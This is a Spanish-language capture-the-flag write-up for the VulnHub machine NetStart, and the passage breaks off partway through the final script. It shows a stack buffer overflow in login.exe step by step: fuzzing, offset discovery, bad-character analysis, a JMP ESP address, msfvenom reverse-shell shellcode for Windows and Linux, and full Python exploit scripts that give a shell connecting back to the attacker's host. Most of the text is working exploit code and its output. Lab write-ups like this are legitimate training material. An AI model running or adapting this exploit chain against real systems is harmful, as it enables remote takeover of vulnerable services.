


Writeup NetStart VulnHub
Resolución de la máquina NetStart de la plataforma de VulnHub
Iniciamos escaneando los puertos de la máquina con nmap, solo vemos ftp y otro puerto
❯ nmap 192.168.100.59
Nmap scan report for 192.168.100.59
PORT STATE SERVICE
21/tcp open ftp
2371/tcp closed worldwire
Procedemos a descargar todo lo que haya en ftp de manera recursiva con ayuda de wget
❯ wget -r ftp://192.168.100.59 &>/dev/null
Al revisar la carpeta podemos ver un archivo con extension .exe y otro con .dll
192.168.100.59 ❯ ls
login.exe login_support.dll
Pasamos los 2 archivos a un windows y al ejecutarlo nos dice que es vulneable a BOF
PS C:\Users\pc1\Desktop> .\login.exe
Starting vulnerable software (BOF)
Called external function dll
Made by foxloxCommands
This is vulnerable software!
Do not allow access from untrusted systems or networks!n
Waiting for client connections...
Para explotarlo, lo primero que necesitamos es fuzzear la cantidad de bytes para que se corrompa el binario, esto para tener una idea del offset
#!/usr/bin/python3
from pwn import *
buffer = [b"A"]
counter = 100
bar = log.progress("")
while len(buffer) < 32:
buffer.append(b"A" * counter)
counter = counter + 100
for strings in buffer:
try:
time.sleep(1)
bar.status(f"Enviando: {len(strings)} bytes")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = shell.connect(("192.168.204.1", 2371))
shell.send(strings + b"\r\n")
data = shell.recv(1024)
shell.close()
except:
bar.success(f"El programa se detuvo al enviar: {len(strings)} bytes")
exit()
Al ejecutar el script corriendo el .exe podemos ver que se detiene al enviar 1800 bytes
❯ python3 fuzzer.py
[+] El programa se detuvo al enviar: 1800 bytes
Ahora con ayuda de la herramienta pattern_create de metasploit creamos uno de 1800 bytes
❯ pattern_create -l 1800
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9
Creamos un nuevo exploit que en este caso solo enviara todo el pattern_creado
#!/usr/bin/python3
from pwn import *
pattern = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0Bi1Bi2Bi3Bi4Bi5Bi6Bi7Bi8Bi9Bj0Bj1Bj2Bj3Bj4Bj5Bj6Bj7Bj8Bj9Bk0Bk1Bk2Bk3Bk4Bk5Bk6Bk7Bk8Bk9Bl0Bl1Bl2Bl3Bl4Bl5Bl6Bl7Bl8Bl9Bm0Bm1Bm2Bm3Bm4Bm5Bm6Bm7Bm8Bm9Bn0Bn1Bn2Bn3Bn4Bn5Bn6Bn7Bn8Bn9Bo0Bo1Bo2Bo3Bo4Bo5Bo6Bo7Bo8Bo9Bp0Bp1Bp2Bp3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9"
log.info("Enviando pattern")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = shell.connect(("192.168.204.1", 2371))
shell.send(pattern)
data = shell.recv(1024)
shell.close()
Ahora lo que necesitamos es controlar el EIP, para esto usaremos Immunity Debugger, asi que abrimos el exe y lo corremos

Al ejecutar el exploit se enviara todo nuestro pattern
❯ python3 offset.py
[*] Enviando pattern
En Immunity Debugger podemos ver que el EIP vale 65433765
Ayudandonos de pattern_offset también de metasploit podemos ver que se necesita una cantidad total de 1702 bytes antes de sobreescribir el registro EIP
❯ pattern_offset -q 65433765
[*] Exact match at offset 1702
Podemos comprobarlo creando un script que envie un total de 1702 veces A y 4 veces B, si estamos en lo correcto EIP deberia valer 42424242 que son las 4 B
#!/usr/bin/python3
from pwn import *
offset = 1702
junk = b"A" * offset
log.info("Enviando data")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = shell.connect(("192.168.204.1", 2371))
shell.send(junk + b"B" * 4)
data = shell.recv(1024)
shell.close()
Corremos el script y podemos ver que ek EIP vale 42424242, tenemos el control, del EIP
❯ python3 eip.py
[*] Enviando data
Lo que ahora necesitamos es detectar badchars que puedan darnos problemas asi que con ayuda de mona crearemos un bytearray quitando de primeras el \x00 ya que siempre da problemas
!mona bytearray -cpb "\x00"

Al script anterior simplemente le agregaremos los badchars para enviarlos despues del EIP
#!/usr/bin/python3
from pwn import *
offset = 1702
junk = b"A" * offset
badchars = b""
badchars += b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
badchars += b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
badchars += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
badchars += b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
badchars += b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
badchars += b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
badchars += b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
badchars += b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
log.info("Enviando badchars")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = shell.connect(("192.168.204.1", 2371))
shell.send(junk + b"B" * 4 + badchars)
data = shell.recv(1024)
shell.close()
Ejecutamos el script para enviar los badchars
❯ python3 badchars.py
[*] Enviando badchars
Ahora nos centraremos en la dirección del ESP que es la que usaremos como argumento para con mona compare compararlo con el archivo bytearray.bin y detectar posibles badchars
Al ejecutar mona compare nos muestra que además de \x00 \x2d tambien es un badchar
!mona compare -f bytearray.bin -a 010FFB4C
Crearemos un nuevo bytearray pero esta vez incluyendo tambien \x2d
!mona bytearray -cpb "\x00\x2d"
Entonces al script anterios solo hace falta cambiar la declaratoria de badchars
#!/usr/bin/python3
from pwn import *
offset = 1702
junk = b"A" * offset
badchars = b""
badchars += b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
badchars += b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41"
badchars += b"\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61"
badchars += b"\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81"
badchars += b"\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1"
badchars += b"\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1"
badchars += b"\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1"
badchars += b"\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
log.info("Enviando badchars")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = shell.connect(("192.168.204.1", 2371))
shell.send(junk + b"B" * 4 + badchars)
data = shell.recv(1024)
shell.close()
Ejecutamos nuevamente el script modificado para enviar los nuevos badchars
❯ python3 badchars.py
[*] Enviando badchars
Nuevamente comparamos el bytearray pasando como argumento el ESP, ahora descubrimos \x2e
!mona compare -f bytearray.bin -a 010BFB4C
Repetimos el proceso varias veces hasta que encontramos los 8 badchars

\x00\x2d\x2e\x46\x47\x59\x5e\x60
Usamos mona para listar los modulos y vemos que login_support.dll no tiene protecciones
!mona modules
Ahora lo que queremos buscar en ese modulo es una dirección que aplique un jmp ESP, para esto podemos usar nasm_shell de metasploit para ver su valor que es FFE4
❯ nasm_shell
nasm > jmp ESP
00000000 FFE4 jmp esp
Entonces con mona buscaremos \xff\xe4 usando el login_support.dll como modulo
!mona find -s "\xff\xe4" -m login_support.dll
Como resultado conseguimos 2 direcciones, solo que nos quedaremos con la primera
Hay que tener en cuenta que como estamos en 32 bits hay que darle la vuelta a la dirección
\x62\x50\x12\xb8 --> \xb8\x12\x50\x62
Ahora tenemos que crear un shellcode con msfvenom que se encargue de crearnos una reverse shell, pasandole los badchars para evitar que los introduzca en el shellcode y de conflictos
❯ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.100.41 LPORT=443 EXITFUNC=thread -a x86 -b "\x00\x2d\x2e\x46\x47\x59\x5e\x60" -f python -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Payload size: 347 bytes
Final size of python file: 1949 bytes
shellcode = b""
shellcode += b"\x33\xc9\xb1\x51\xd9\xee\xd9\x74\x24\xf4\x5b"
shellcode += b"\x81\x73\x13\x64\xda\x84\x9c\x83\xeb\xfc\xe2"
shellcode += b"\xf4\x98\x32\x06\x9c\x64\xda\xe4\x15\x81\xeb"
shellcode += b"\x44\xf8\xef\x8a\xb4\x17\x36\xd6\x0f\xce\x70"
shellcode += b"\x51\xf6\xb4\x6b\x6d\xce\xba\x55\x25\x28\xa0"
shellcode += b"\x05\xa6\x86\xb0\x44\x1b\x4b\x91\x65\x1d\x66"
shellcode += b"\x6e\x36\x8d\x0f\xce\x74\x51\xce\xa0\xef\x96"
shellcode += b"\x95\xe4\x87\x92\x85\x4d\x35\x51\xdd\xbc\x65"
shellcode += b"\x09\x0f\xd5\x7c\x39\xbe\xd5\xef\xee\x0f\x9d"
shellcode += b"\xb2\xeb\x7b\x30\xa5\x15\x89\x9d\xa3\xe2\x64"
shellcode += b"\xe9\x92\xd9\xf9\x64\x5f\xa7\xa0\xe9\x80\x82"
shellcode += b"\x0f\xc4\x40\xdb\x57\xfa\xef\xd6\xcf\x17\x3c"
shellcode += b"\xc6\x85\x4f\xef\xde\x0f\x9d\xb4\x53\xc0\xb8"
shellcode += b"\x40\x81\xdf\xfd\x3d\x80\xd5\x63\x84\x85\xdb"
shellcode += b"\xc6\xef\xc8\x6f\x11\x39\xb2\xb7\xae\x64\xda"
shellcode += b"\xec\xeb\x17\xe8\xdb\xc8\x0c\x96\xf3\xba\x63"
shellcode += b"\x25\x51\x24\xf4\xdb\x84\x9c\x4d\x1e\xd0\xcc"
shellcode += b"\x0c\xf3\x04\xf7\x64\x25\x51\xcc\x34\x8a\xd4"
shellcode += b"\xdc\x34\x9a\xd4\xf4\x8e\xd5\x5b\x7c\x9b\x0f"
shellcode += b"\x13\xf6\x61\xb2\x44\x34\xa5\x5a\xec\x9e\x64"
shellcode += b"\xdb\x3f\x15\x82\xb0\x94\xca\x33\xb2\x1d\x39"
shellcode += b"\x10\xbb\x7b\x49\xe1\x1a\xf0\x90\x9b\x94\x8c"
shellcode += b"\xe9\x88\xb2\x74\x29\xc6\x8c\x7b\x49\x0c\xb9"
shellcode += b"\xe9\xf8\x64\x53\x67\xcb\x33\x8d\xb5\x6a\x0e"
shellcode += b"\xc8\xdd\xca\x86\x27\xe2\x5b\x20\xfe\xb8\x9d"
shellcode += b"\x65\x57\xc0\xb8\x74\x1c\x84\xd8\x30\x8a\xd2"
shellcode += b"\xca\x32\x9c\xd2\xd2\x32\x8c\xd7\xca\x0c\xa3"
shellcode += b"\x48\xa3\xe2\x25\x51\x15\x84\x94\xd2\xda\x9b"
shellcode += b"\xea\xec\x94\xe3\xc7\xe4\x63\xb1\x61\x64\x81"
shellcode += b"\x4e\xd0\xec\x3a\xf1\x67\x19\x63\xb1\xe6\x82"
shellcode += b"\xe0\x6e\x5a\x7f\x7c\x11\xdf\x3f\xdb\x77\xa8"
shellcode += b"\xeb\xf6\x64\x89\x7b\x49"
Tenemos todo, nuestro exploit enviara un payload que son las A necesarias para llegar el EIP ahi le pasamos la dirección que hace el jmp al ESP, ademas le pasamos 16 nops para que tenga un poco de tiempo antes de interpretar el shellcode para que nos envie la shell
#!/usr/bin/python3
from pwn import *
offset = 1702
junk = b"A" * offset
jmpesp = b"\xb8\x12\x50\x62"
nops = b"\x90" * 16
shellcode = b""
shellcode += b"\x33\xc9\xb1\x51\xd9\xee\xd9\x74\x24\xf4\x5b"
shellcode += b"\x81\x73\x13\x64\xda\x84\x9c\x83\xeb\xfc\xe2"
shellcode += b"\xf4\x98\x32\x06\x9c\x64\xda\xe4\x15\x81\xeb"
shellcode += b"\x44\xf8\xef\x8a\xb4\x17\x36\xd6\x0f\xce\x70"
shellcode += b"\x51\xf6\xb4\x6b\x6d\xce\xba\x55\x25\x28\xa0"
shellcode += b"\x05\xa6\x86\xb0\x44\x1b\x4b\x91\x65\x1d\x66"
shellcode += b"\x6e\x36\x8d\x0f\xce\x74\x51\xce\xa0\xef\x96"
shellcode += b"\x95\xe4\x87\x92\x85\x4d\x35\x51\xdd\xbc\x65"
shellcode += b"\x09\x0f\xd5\x7c\x39\xbe\xd5\xef\xee\x0f\x9d"
shellcode += b"\xb2\xeb\x7b\x30\xa5\x15\x89\x9d\xa3\xe2\x64"
shellcode += b"\xe9\x92\xd9\xf9\x64\x5f\xa7\xa0\xe9\x80\x82"
shellcode += b"\x0f\xc4\x40\xdb\x57\xfa\xef\xd6\xcf\x17\x3c"
shellcode += b"\xc6\x85\x4f\xef\xde\x0f\x9d\xb4\x53\xc0\xb8"
shellcode += b"\x40\x81\xdf\xfd\x3d\x80\xd5\x63\x84\x85\xdb"
shellcode += b"\xc6\xef\xc8\x6f\x11\x39\xb2\xb7\xae\x64\xda"
shellcode += b"\xec\xeb\x17\xe8\xdb\xc8\x0c\x96\xf3\xba\x63"
shellcode += b"\x25\x51\x24\xf4\xdb\x84\x9c\x4d\x1e\xd0\xcc"
shellcode += b"\x0c\xf3\x04\xf7\x64\x25\x51\xcc\x34\x8a\xd4"
shellcode += b"\xdc\x34\x9a\xd4\xf4\x8e\xd5\x5b\x7c\x9b\x0f"
shellcode += b"\x13\xf6\x61\xb2\x44\x34\xa5\x5a\xec\x9e\x64"
shellcode += b"\xdb\x3f\x15\x82\xb0\x94\xca\x33\xb2\x1d\x39"
shellcode += b"\x10\xbb\x7b\x49\xe1\x1a\xf0\x90\x9b\x94\x8c"
shellcode += b"\xe9\x88\xb2\x74\x29\xc6\x8c\x7b\x49\x0c\xb9"
shellcode += b"\xe9\xf8\x64\x53\x67\xcb\x33\x8d\xb5\x6a\x0e"
shellcode += b"\xc8\xdd\xca\x86\x27\xe2\x5b\x20\xfe\xb8\x9d"
shellcode += b"\x65\x57\xc0\xb8\x74\x1c\x84\xd8\x30\x8a\xd2"
shellcode += b"\xca\x32\x9c\xd2\xd2\x32\x8c\xd7\xca\x0c\xa3"
shellcode += b"\x48\xa3\xe2\x25\x51\x15\x84\x94\xd2\xda\x9b"
shellcode += b"\xea\xec\x94\xe3\xc7\xe4\x63\xb1\x61\x64\x81"
shellcode += b"\x4e\xd0\xec\x3a\xf1\x67\x19\x63\xb1\xe6\x82"
shellcode += b"\xe0\x6e\x5a\x7f\x7c\x11\xdf\x3f\xdb\x77\xa8"
shellcode += b"\xeb\xf6\x64\x89\x7b\x49"
log.info("Enviando shellcode")
shell = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect = shell.connect(("192.168.204.1", 2371))
shell.send(junk + jmpesp + nops + shellcode + b"\n\r")
data = shell.recv(1024)
shell.close()
log.success("Revisa tu listener")
Finalmente solo ejecutamos el exploit y recibimos una shell en nuestro listener
❯ python3 exploit.py
[*] Enviando shellcode
[+] Revisa tu listener
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 192.168.204.1
Microsoft Windows [Versión 10.0.22621.1105]
(c) Microsoft Corporation. Todos los derechos reservados.
C:\Users\pc1\Desktop>whoami
gatogamer1155\pc1
C:\Users\pc1\Desktop>
Esto fue en local, para la máquina netstart solo hace falta cambiar la ip en el script
connect = shell.connect(("192.168.100.59", 2371))
Volvemos a ejecutar el script y conseguimos una shell como fox en la máquina victima
❯ python3 exploit.py
[*] Enviando shellcode
[+] Revisa tu listener
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 192.168.100.59
Microsoft Windows 6.1.7601 (4.0)
C:\users\fox>whoami
Can't recognize 'whoami' as an internal or external command, or batch script.
C:\users\fox>
No reconoce comandos como whoami, y tiene sentido porque aunque es un exe lo que corre por detrás es un linux, asi que cambiaremos el payload con msfvenom
❯ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.100.41 LPORT=443 EXITFUNC=thread -a x86 -b "\x00\x2d\x2e\x46\x47\x59\x5e\x60" -f python -v shellcode
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
Payload size: 91 bytes
Final size of python file: 534 bytes
shellcode = b""
shellcode += b"\x2b\xc9\xb1\x11\xd9\xee\xd9\x74\x24\xf4\x5b"
shellcode += b"\x81\x73\x13\xb5\xcc\x90\xc3\x83\xeb\xfc\xe2"
shellcode += b"\xf4\x84\x17\x67\x20\xe6\x8f\xc3\xa9\xb7\x45"
shellcode += b"\x71\x73\xd3\x01\x10\x50\xec\x7c\xaf\x0e\x35"
shellcode += b"\x85\xe9\x3a\xdd\x0c\x38\xa7\x9c\xa4\x92\xc3"
shellcode += b"\xb4\x77\x19\x22\x05\xaa\xc0\x92\xe6\x7f\x93"
shellcode += b"\x4a\x54\x01\x10\x91\xdd\xa2\xbf\xb0\xdd\xa4"
shellcode += b"\xbf\xec\xd7\xa5\x19\x20\xe7\x9f\x19\x22\x05"
shellcode += b"\xc7\x5d\x43"
Solo cambiaremos el shellcode y el script final quedaria asi
#!/usr/bin/python3
from pwn import *
offset = 1702
junk = b"A" * offset
jmpesp = b"\xb8\x12\x50\x62"
nops = b"\x90" * 16
shellcode = b""
shellcode += b"\x2b\xc9\xb1\x11\xd9\xee\xd9\x74\x24\xf4\x5b"
shellcode += b"\x81\x73\x13\xb5\xcc\x90\xc3\x83\xeb\xfc\xe2"
shellcode += b"\xf4\x84\x17\x67\x20\xe6\x8f\xc3\xa9\xb7\x45"
shellcode += b"\x71\x73\xd3\x01\x10\x50\xec\x7c\xaf\x0e\x35"
shellcode += b"\x85\xe9\x3a\xdd\x0c\x38\xa7\x9c\xa4\x92\xc3"
shellcode += b"\xb4\x77\x19\x22\x05\xaa\xc0\x92\xe6\x7f\x93"
